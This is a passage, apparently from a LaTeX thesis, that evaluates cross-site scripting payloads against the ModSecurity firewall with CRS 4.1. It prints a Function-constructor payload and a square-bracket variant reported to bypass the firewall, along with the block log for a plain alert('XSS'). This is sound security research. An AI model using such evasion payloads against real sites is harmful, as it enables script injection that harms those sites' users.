 The bypassing payload mentioned under Section~\ref{sec:functionconstructorsingleeva}:

\begin{lstlisting}[style=basicStyle, language=Python]
[].constructor.constructor('alert' + '(`concatenation`)')()
\end{lstlisting}

has been obscured using the square bracket notation: 

\begin{lstlisting}[style=basicStyle, language=Python, caption=square bracket notation bypass]
[]["constructor"]["constructor"]('alert' + '(`concatenation`)')()
\end{lstlisting}

Equally to the result of the original payload, the obscured payload successfully bypasses the ModSecurity firewall using CRS4.1.

Further usages of this technique are stated under Section~\ref{sec:funconstrconbypass}, Section~\ref{sec:avoidingbypassA} and Section~\ref{sec:avoidingbypassB} during multi iteration evaluation.


\subsubsection{Tagged Template Literals}
\label{sec:taggedtemplateliteralsevaluation}
The example payload stated under Section~\ref{sec:taggedtemplateliterals}:

\begin{lstlisting}[style=basicStyle, language=Python]
alert("XSS")
\end{lstlisting}

has been used to evaluate the tested firewall configuration. It is blocked by the ModSecurity firewall using CRS4.1:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=alert('XSS') blocked, label={lst:alertXSSblocked}]
<payload>alert('XSS')</payload>

<message>"Javascript method detected"</message>
<file>"rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"alert("</MatchedData>
\end{lstlisting}

After substituting the function call using \verb|("XSS")| with a Tagged Template Literal in the form of \verb|`XSS`|, the obscured payload:

